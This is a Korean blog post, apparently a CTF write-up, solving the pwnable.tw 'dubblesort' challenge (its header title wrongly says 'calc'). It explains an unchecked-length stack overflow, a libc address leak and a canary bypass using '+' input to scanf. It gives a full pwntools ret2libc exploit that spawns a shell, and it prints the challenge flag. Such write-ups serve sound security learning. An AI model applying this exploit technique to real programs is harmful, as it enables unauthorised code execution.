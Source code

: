 ```yaml
---
layout: post
title: "[pwnable.tw] calc 풀이"
date: 2018-06-28 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## dubblesort [200 pts]
### Sort the memory!
### `nc chall.pwnable.tw 10101`
### [dubblesort](https://pwnable.tw/static/chall/dubblesort)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/dubblesort/01.png)
{: refdef}

에?

{: refdef: style="text-align: center;"}
![main_01](/img/pwnable.tw/dubblesort/02.png)
{: refdef}
{: refdef: style="text-align: center;"}
![main_02](/img/pwnable.tw/dubblesort/03.png)
{: refdef}

`max_count`를 입력받는 부분을 보면 `%u`로 받고나서 길이체크 같은게 하나도 없어요.

그래서 이 부분을 사용해 `BOF`를 일으키고 `ROP`를 써서 풀거에요.

- - -
# 0x01. 공격 방법

우선 제가 생각한 방법으로 공격하려면

- `canary` 알아내기

- memory leak

이렇게 2개가 필요해요.

`canary`를 알아내려면 아마 `read`를 사용하는 `name` 부분에서 할텐데 `0x40`으로 딱 맞아서 알아낼 수 없어요.

{: refdef: style="text-align: center;"}
![memory](/img/pwnable.tw/dubblesort/04.png)
{: refdef}

보면 `canary`는 못 알아내지만 `0xf7fb4000`라는 이상한 냄새 풀풀나는 주소는 알아낼 수 있어요.

>gdb-peda$ p system<br />
$1 = {<text variable, no debug info>} 0xf7e19200 <system>

그럼 이제 `canary`가 문젠데

어떻게는 해보려고 막 하다가 알아낸건데 `%u`에서 숫자가 아닌 문자를 넣었을 때 해당 값이 그대로인걸 알아냈어요!

신나서 페이로드 작성해서 돌려보니까 `canary`는 그대론데 그 이후로도 값이 그대로임...

그래서 다른 문자들로 넣어보다가 `+`, `-`는 그 이후의 값이 바뀌는 걸 확인했어요.

마지막으로 디버깅하다가 알아낸건데 값을 다 넣으면 `func_sort`에 의해서 넣은 값들이 정렬돼요.

그래서 저는 `canary`전에는 작은 값들을 넣고 이후엔 `canary`보단 크지만 `system`같은 함수보단 작은 값들을 넣었고 `system`이 끝나고 리턴 주소는 그냥 `system`이랑 똑같이 넣었어요.

- - -
# 0x02. 익스프로잇

로컬 서버로 테스트할 땐 `process`가 안돼서 32bit ubuntu에서 돌렸어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "192.168.0.23"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10101

############################################

s = remote(HOST, PORT)

elf = ELF("./dubblesort")
libc = ELF("./libc_32.so.6")
pause()

############################################

system_off = libc.symbols["system"]
binsh_off = list(libc.search("/bin/sh"))[0]

############################################

s.sendafter("name :", "A"*25)
s.recvuntil("A"*25)
save = u32("\x00" + s.recv(3))

libc_base = save - 0x1b0000
system_addr = libc_base + system_off
binsh_addr = libc_base + binsh_off

print "[*] libc_base : " + hex(libc_base)
print "[*] system_addr : " + hex(system_addr)
print "[*] binsh_addr : " + hex(binsh_addr)

s.sendafter("sort :", "35\n")

for i in range(31):
  if(i < 23):
    s.recv()
    print str(i) + " is " + str(i)
    s.sendline(str(i))

  if(i == 23):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

  if(i == 24):
    s.recv()
    print "canary"
    s.sendline("+")
  
  if(i > 24):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

s.recv()
s.sendline("1") # ebp

s.recv()
s.sendline(str(system_addr)) # ret

s.recv()
s.sendline(str(system_addr)) # ret + 4

s.recv()
s.sendline(str(binsh_addr)) # ret + 8

sleep(2)
s.recv()

s.interactive()
```

### FLAG{Dubo_duBo_dub0_s0rttttttt}